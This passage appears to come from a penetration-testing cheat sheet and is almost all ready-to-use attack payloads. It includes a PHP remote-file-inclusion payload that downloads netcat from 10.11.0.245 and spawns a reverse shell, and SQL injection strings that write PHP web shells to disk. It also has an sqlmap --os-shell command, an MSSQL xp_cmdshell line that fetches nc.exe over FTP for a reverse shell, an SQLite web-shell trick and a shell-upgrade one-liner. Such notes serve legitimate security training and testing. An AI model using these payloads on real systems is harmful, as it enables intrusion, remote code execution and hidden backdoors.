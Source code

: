 ```bash
http://example.com/index.php?page=zip://shell.jpg%23payload.php

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```

### Remote File Inclusion Shell: Windows + PHP

```php
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

### SQL Injection to Shell or Backdoor

```sql
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

```bash
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```bash
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

### SQLite Injection to Shell or Backdoor

```sql
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

### MS-SQL Console

```bash
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

### Upgradig Non-Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

### Python Input Code Injection
